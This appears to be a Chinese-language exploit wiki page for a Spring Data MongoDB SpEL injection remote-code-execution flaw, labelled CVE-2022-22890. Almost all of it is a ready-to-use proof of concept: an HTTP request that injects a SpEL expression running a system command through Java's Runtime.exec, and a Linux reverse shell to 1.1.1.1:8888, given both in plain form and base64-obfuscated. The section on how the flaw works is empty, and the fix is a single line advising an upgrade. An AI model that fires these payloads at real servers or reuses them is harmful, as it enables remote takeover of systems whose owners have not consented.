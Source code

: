# SpringDataMongoDBSpEL RCE(CVE-2022-22890)

## 利用条件：
- SpringDataMongoDB 应用程序在使用带有 SpEL 表达式的 @Query 或 @Aggregation-annotated 查询方法且输入未经过过滤。

## 利用方法：
#### POC：
```shell
POST /?name=T(java.lang.String).forName(%27java.lang.Runtime%27).getRuntime().exec(%27ping%20a.dnslog.cn%27)
Host: 1.1.1.1
Connection: close
```
![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发框架漏洞/Spring/SpringDataMongoDBSpEL(CVE-2022-22890)/img/poc.png)
- linux反弹shell POC：
`bash -i >&/dev/tcp/1.1.1.1/8888 0>&1`经过base64变形后进行url编码
```shell
bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvODg4OCAwPiYx}|{base64,-d}|{bash,-i}
```
![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发框架漏洞/Spring/SpringDataMongoDBSpEL(CVE-2022-22890)/img/poc.png)

## 漏洞原理：

## 漏洞修复：
1. 使用官方最新发布版本。